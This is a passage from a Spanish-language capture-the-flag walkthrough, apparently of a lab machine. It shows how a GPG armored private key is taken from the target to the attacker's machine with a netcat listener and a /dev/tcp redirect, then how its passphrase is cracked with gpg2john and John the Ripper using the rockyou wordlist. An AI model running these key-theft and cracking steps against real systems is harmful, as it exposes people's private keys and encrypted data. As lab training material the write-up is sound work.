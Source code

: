 <img width="1276" height="311" alt="image" src="https://github.com/user-attachments/assets/3eba8a94-d37e-4416-8196-7bed556ca025" />

* aunque son nuestros los archivos no podemos leerlos ya que estan encriptados con `gpg` asi que vamos a nuestro directorio de trabajo


<img width="1276" height="337" alt="image" src="https://github.com/user-attachments/assets/e01fd955-d77d-4e84-9678-07e36a30a33e" />

* Nos conseguimos con el directorio `.gnupg` el cual puede estar relacionado con los archivos backup anteriores asi que accedemos y revisamos su contenido

  
<img width="1276" height="337" alt="image" src="https://github.com/user-attachments/assets/9a383a26-ef7b-44b7-90f5-315e2ffa9441" />

* Ya por aqui vemos que tenemos archivos sensibles y los cuales nos permitirian desencriptar los archivos backup anteriores, lo primero que haremos sera enviar el archivo `armored_key.asc` a nuestra maquina atacante para intentar crackear la password, si lo llegamos a lograr entonces podriamos desencriptar los backup.

* en nuestra maquina

```bash
nc -lnvp 5555 > armored_key.asc
```

* Ahora enviamos el archivos

```bash
cat armored_key.asc > /dev/tcp/10.10.14.216/5555
```
* Hemos recibido el archivo asi que ahora intentamos crackear desde nuestra maquina

```bash
gpg2john armored_key.asc > key.hash # extraemos el hash
```
```bash
john -w=/usr/share/wordlists/rockyou.txt key.hash # intentamos crackearlo
```
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s**********rt       (Sandy)     
1g 0:00:00:01 DONE (2025-09-20 14:28) 0.7194g/s 310.7p/s 310.7c/s 310.7C/s gandako..nicole1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

obtuvimos la password asi que ahora vamos intentar descifrar los backups

### Descifrado GPG
